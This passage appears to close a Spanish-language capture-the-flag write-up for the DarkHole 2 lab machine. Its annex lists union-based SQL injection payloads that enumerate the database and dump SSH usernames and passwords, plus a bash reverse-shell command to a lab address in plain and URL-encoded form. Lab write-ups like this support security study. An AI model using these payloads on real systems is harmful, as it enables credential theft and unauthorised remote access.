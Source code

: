 **Complejidad real vs marcada:** La dificultad media es apropiada. Requiere conocimientos sólidos de enumeración web, SQLi manual y pensamiento lateral para identificar servicios locales.

> [!note] Mapa mental
> Técnicas relacionadas: [[Git-Enumeration]], [[SQLi-Manual]], [[SQLi-Union-Based]], [[Linux-Internal-Services]], [[Python-Sudo-Privesc]], [[SSH-Lateral-Movement]]

---
## Herramientas Utilizadas

- arp-scan
- nmap
- wget
- git
- Burp Suite (Repeater)
- curl
- netcat
- ssh
- htop
- netstat

---

## Anexos

### Payloads SQLi Utilizados

Enumeración de columnas:
2'+order+by+6--+-

Union select básico:
2'+union+select+1,2,3,4,5,6--+-

Extracción de bases de datos:
2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+-

Extracción de tablas:
2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema='darkhole_2'--+-

Extracción de columnas:
2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema='darkhole_2'+and+table_name='ssh'--+-

Dump de credenciales:
2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+-

### Reverse Shell Payload

Comando original:
bash -c 'bash -i >& /dev/tcp/172.16.23.1/443 0>&1'

URL encoded:
bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'
